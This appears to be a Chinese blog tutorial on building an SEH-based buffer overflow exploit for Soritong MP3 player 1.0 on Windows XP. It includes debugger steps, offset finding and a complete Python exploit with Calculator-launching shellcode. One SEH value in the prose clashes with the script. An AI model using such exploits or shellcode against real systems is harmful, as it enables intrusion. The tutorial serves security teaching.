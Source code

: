 title: exploit编写教程2：跳转到shellcode
date: 2015-12-16 10:23:48
tags: 
- 缓冲区溢出
- exploit 编写
categories: exploit 编写
---

这个是基于SEH的exploit，SEH的原理大家去搜索，网上有很多资料，本文就不赘述了。
<!-- more -->

# I、试验环境
- 测试平台： Microsoft Windows XP SP3
- 漏洞软件：[Soritong MP3 player 1.0](http://terenceli.github.io/assets/file/seh-exploit/soritong10.exe
)
- 分析工具：Immunity Debugger
- 漏洞描述：通过创建一个畸形皮肤文件将触发Soritong MP3 player 1.0溢出。

# II、漏洞触发
用python创建一个ui.txt文件并放到skin\default文件夹下面
```
#!/usr/bin/python
filename = "ui.txt"
junk = 'A' * 5000
f = open(filename,'w')
f.write(junk)
f.close()
```
打开Soritong，可以看到程序闪退。
使用Immunity Debugger加载Soritong，F9运行，然后查看SEH链（view -> SEH chain），发现next SEH和SEH handler都被 A 覆盖了
![](https://ww4.sinaimg.cn/large/005CA6ZCgw1ez1aw1va0oj307f03pglt.jpg)

当异常发生时，程序会跳转到SEH handler去执行，通过将这个handler的值设置为程序自带模块的一个pop/pop/ret地址，能够实现程序跳转到next seh pointer去，在next seh中需要做的就是跳转到shellcode执行。shellcode的布局大致如下：
```
[junk][next seh][seh][shellcode]
```
next seh是一个跳转到shellcode的指令，seh是一个程序自带模块的p/p/r地址。
这里再解释一下pop pop ret指令的作用，当异常发生的时候，异常分发器创建自己的栈帧，会将EH handler成员压入新创的栈帧中，在EH结构中有一个域是EstablisherFrame。这个域指向异常注册记录(next seh)的地址并被压入栈中，当一个函数被调用的时候被压入的这个值都是位于ESP+8的地方。使用pop pop ret后，就会将next seh的地址放到EIP中。

# III、要精确定位 SEH 的偏移地址
需要构造特殊的唯一字符串模型来覆盖缓冲区
Immunity Debugger再次加载Soritong，在命令行窗口输入：
```
!mona create_pattern 5000
```

![](https://ww3.sinaimg.cn/large/005CA6ZCgw1ez1b8xtm4nj30k404ugne.jpg)

从Log data中可知，pattern文件在C:\D\mona-master\output\Soritong\pattern.txt，
提取出生成的5000个字符文件，放入p.txt，并替换ui.txt中的5000个字符。脚本如下：
```
#!/usr/bin/python
filename = "ui.txt"

fp = open("p.txt",'r')
junk = fp.read()

f = open(filename,'w')
f.write(junk)
f.close()
```
将生成的ui.txt覆盖skin\default中的ui.txt
在Immunity Debugger中查看SEH chain：

![](https://ww3.sinaimg.cn/large/005CA6ZCjw1ez1bo95bd0j307f02dmxd.jpg)

nseh 的值为：35744134 ，在命令行输入
```
!mona pattern_offset 35744134
```
查找nseh偏移

![](https://ww4.sinaimg.cn/large/005CA6ZCgw1ez1bq0ehlzj30ef04wwfs.jpg)

nseh的偏移为：584，则seh handler的偏移：584 + 4 =588

此时我们再用如下脚本测试一下位置是否正确：
```
#!/usr/bin/python
filename = "ui.txt"
junk = 'A' * 584
nseh = 'B' * 4
seh = 'C' * 4
data = junk + nseh + seh
f = open(filename,'w')
f.write(data)
f.close()
```

![](https://ww2.sinaimg.cn/large/005CA6ZCgw1ez1c47xmhvj307e032wep.jpg)

# Ⅳ、查找 p/p/r 指令序列
再次加载目标程序，在命令行窗口输入：
```
!mona rop
```
在rop.txt中查找合适的 p/p/r指令地址

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1ez1if82tnaj30el03njsl.jpg)

选用 0x1001dd61 （选地址时，要注意shellcode截断）

# V、构造最终的输入文件
一个short jmp机器码是eb，跟上跳转距离，跳过6字节的short jmp机器码为eb 06。所以使用0xeb,0x06,0x90,0x90覆盖 next seh。

最终的shellcode就是

junk:584字节 ‘A’

next seh:”\xeb\x06\x90\x90”

seh:”\x26\x80\x45\x00”

shellcode：完成功能的，随便找了一个弹计算器的

并且在最后加了一些垃圾数据
```
filename = "ui.txt"
junk = "A" * 584
nseh = "\xeb\x06\x90\x90"
seh = "\x61\xdd\x01\x10"
shellcode = ("\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
"\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
"\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
"\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
"\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
"\x42\x30\x42\x50\x42\x30\x4b\x38\x45\x54\x4e\x33\x4b\x58\x4e\x37"
"\x45\x50\x4a\x47\x41\x30\x4f\x4e\x4b\x38\x4f\x44\x4a\x41\x4b\x48"
"\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x34\x4b\x38\x46\x43\x4b\x48"
"\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x39\x4e\x4a\x46\x48\x42\x4c"
"\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x50\x41\x30\x44\x4c\x4b\x4e"
"\x46\x4f\x4b\x43\x46\x35\x46\x42\x46\x30\x45\x47\x45\x4e\x4b\x48"
"\x4f\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54"
"\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x31\x4b\x48"
"\x41\x30\x4b\x4e\x49\x38\x4e\x45\x46\x52\x46\x30\x43\x4c\x41\x43"
"\x42\x4c\x46\x46\x4b\x48\x42\x54\x42\x53\x45\x38\x42\x4c\x4a\x57"
"\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x48\x42\x37\x4e\x51\x4d\x4a"
"\x4b\x58\x4a\x56\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x38\x42\x4b"
"\x42\x50\x42\x30\x42\x50\x4b\x58\x4a\x46\x4e\x43\x4f\x35\x41\x53"
"\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x37"
"\x42\x35\x4a\x46\x42\x4f\x4c\x48\x46\x50\x4f\x45\x4a\x46\x4a\x49"
"\x50\x4f\x4c\x58\x50\x30\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x46"
"\x4e\x36\x43\x46\x42\x50\x5a")
junk2="\x90" * 1000;
data = junk + nseh + seh + shellcode + junk2
f = open(filename,'w')
f.write(data)
f.close()
```

运行目标程序，OK！！！！计算器成功弹出来了

![](https://ww1.sinaimg.cn/large/005CA6ZCgw1ez1igyvjt5j30es08gtb2.jpg)

# Ⅵ、参考文献
[exploit编写笔记2——基于SEH的exploit](exploit编写笔记2——基于SEH的exploit)
<https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/>



